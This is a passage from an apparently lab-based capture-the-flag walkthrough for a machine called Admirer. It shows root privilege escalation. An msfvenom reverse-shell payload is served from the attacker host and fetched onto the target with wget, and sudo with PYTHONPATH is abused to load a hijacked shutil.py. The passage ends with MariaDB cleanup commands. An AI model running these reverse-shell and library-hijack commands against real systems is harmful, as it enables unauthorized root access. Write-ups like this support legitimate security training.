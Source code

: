 ```
uid=0(root) gid=0(root) groups=0(root)
```

Yse this to get a dedicated shell as `root`:

```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
# run on target
wget -O /var/tmp/bubba.elf 10.10.14.25/bubba.elf
chmod +x /var/tmp/bubba.elf
echo 'os.system("/var/tmp/bubba.elf")' >> /var/tmp/shutil.py
sudo -E PYTHONPATH=/var/tmp/ -u root /opt/scripts/admin_tasks.sh 6
```

And this returns a shell as `root`:

![root1](./admirer/root1.png)

---

To cleanup MariaDB after this machine:

```bash
mysql -u root -h localhost -p
```

Then run the following MySQL:

```sql
show databases;
select host, user, password from mysql.user;
delete from mysql.user where user = 'bubba';
drop database BUBBA_GUMP;
show databases;
select host, user, password from mysql.user;
exit;
```

Now run the following:

```bash
sudo systemctl stop mariadb
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf # change bind-address to 127.0.0.1
sudo systemctl start mariadb 
```

